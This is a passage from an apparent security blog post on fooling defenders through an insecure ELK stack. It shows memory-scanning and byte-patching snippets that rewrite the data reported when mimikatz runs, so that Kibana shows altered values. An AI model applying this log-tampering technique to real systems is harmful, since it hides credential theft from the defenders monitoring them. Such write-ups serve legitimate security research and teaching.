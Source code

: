 After the function terminates, we perform a synchronous scan of the memory starting from the address we previously extracted. The `pattern` variable will hold the bytes which we're scanning for:
```
var res = Memory.scanSync(
    this.ptr,
    this.size,
    pattern
);
```

For each result of the scan, we patch the bytes with something else:

```
res.forEach(function(f){
    send("Patching: " + f.address);
    Memory.protect(f.address, 16, "rwx");
    f.address.writeByteArray([0x6c,0x00,0x6f,0x00,0x6c,0x00,0x69,0x00,0x6b,0x00,0x61,0x00,0x74,0x00,0x7a,0x00])
});
```

Let's try executing mimikatz:

![](/assets/2020-03-21-fooling-the-blue-team-abusing-insecure-elk/91b0bed64528d8acb5e56224fbd3f933.png)

Within Kibana, the data was correctly tampered:

![](/assets/2020-03-21-fooling-the-blue-team-abusing-insecure-elk/cb3c783d1d89a254879f747802dbc009.png)
